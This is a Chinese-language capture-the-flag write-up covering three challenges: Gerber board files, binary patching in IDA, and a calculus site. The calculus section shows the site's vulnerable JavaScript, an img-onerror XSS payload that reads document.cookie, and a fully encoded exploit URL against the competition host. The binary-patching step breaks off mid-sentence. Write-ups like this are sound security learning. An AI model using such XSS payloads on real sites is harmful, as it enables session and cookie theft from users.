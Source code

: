 <br>

### 11 线路板

安装 Gerbv

加载所有 `*.gbr` 文件，然后发现 `fla` 字样，把所有挡住的圆盘删掉，就能看到 flag 了。

<br>

### 12 Flag 自动机

直接打开有两个按钮，鼠标左键 + Alt + Space 乱按有概率颠倒按钮，但还是会显示没有管理员权限。

使用 Detect_it_Easy，没有发现壳。

用文本编辑器打开文件会显示一些文字，比如 `flag_machine.txt`

学习了一下 IDA 的使用。找到 `fwrite` 的位置。根据反汇编的代码，将判断语句 `je` 更改为 

<br>

### 13 微积分计算小练习

`bot.py` 调用 selenium 打开网页。需要更改 URL 的参数获得 cookie

查看 http://202.38.93.111:10056/share?result=MTAwOkdXRHg%3D 的页面源代码

微积分网站中的 URL 是经过 base64 和 URL 编码的

解码后是 `GWDx:100`

查看 JavaScript 代码

```javascript
const result = urlParams.get('result');
const b64decode = atob(result);
const colon = b64decode.indexOf(":");
const score = b64decode.substring(0, colon);
const username = b64decode.substring(colon + 1);

document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

经过尝试，填入 `<script>` 不会被更新。而 [浅谈XSS攻击的那些事](https://zhuanlan.zhihu.com/p/26177815) 中提到可以用 `<img src=1 onerror=` 进行 XSS 攻击

所以构造

```html
<img src="1" onerror=document.querySelector("#greeting").innerHTML=document.cookie>
```

加上 `:`，base64 和 URL 编码后得到

```
http://202.38.93.111:10056/share?result=OjxpbWcgc3JjPSIxIiBvbmVycm9yPWRvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoIiNncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU%2B
```
